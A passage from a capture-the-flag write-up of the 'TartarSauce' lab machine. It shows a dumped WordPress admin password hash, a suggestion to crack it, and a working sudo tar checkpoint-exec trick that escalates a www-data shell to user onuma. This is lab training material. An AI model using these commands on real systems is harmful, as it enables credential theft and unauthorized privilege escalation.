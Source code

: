 ```
+----+------------+------------------------------------+---------------+--------------------+----------+---------------------+---------------------+-------------+--------------+
| ID | user_login | user_pass                          | user_nicename | user_email         | user_url | user_registered     | user_activation_key | user_status | display_name |
+----+------------+------------------------------------+---------------+--------------------+----------+---------------------+---------------------+-------------+--------------+
|  1 | wpadmin    | $P$BBU0yjydBz9THONExe2kPEsvtjStGe1 | wpadmin       | wpadmin@test.local |          | 2018-02-09 20:49:26 |                     |           0 | wpadmin      |
+----+------------+------------------------------------+---------------+--------------------+----------+---------------------+---------------------+-------------+--------------+
1 row in set (0.00 sec)

mysql>
```

We find a set of creds: wpadmin:$P$BBU0yjydBz9THONExe2kPEsvtjStGe1

The hash is Wordpress MD5, and we can try and crack it using hashcat. Let's leave this for now and continue with the enumeration.

Let's see if the "www-user" can run any commands as sudo:

```
www-data@TartarSauce:/var/www/html/webservices$ sudo -l
sudo -l
Matching Defaults entries for www-data on TartarSauce:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on TartarSauce:
    (onuma) NOPASSWD: /bin/tar
www-data@TartarSauce:/var/www/html/webservices$ sudo -u onuma /bin/tar
sudo -u onuma /bin/tar
/bin/tar: You must specify one of the '-Acdtrux', '--delete' or '--test-label' options
Try '/bin/tar --help' or '/bin/tar --usage' for more information.

```

Let's check GTFObins for any entries for "tar":

{% embed url="https://gtfobins.github.io/gtfobins/tar" %}

There is an entry for tar. Under the Sudo section, we see the following text and example:

> If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.
>
> ```
> sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
> ```

Let's try this to see if we can get a shell as the user "onuma":

```
www-data@TartarSauce:/var/www/html/webservices$ sudo -u onuma /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
</null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh             
/bin/tar: Removing leading `/' from member names
$ id
id
uid=1000(onuma) gid=1000(onuma) groups=1000(onuma),24(cdrom),30(dip),46(plugdev)
$ 
```
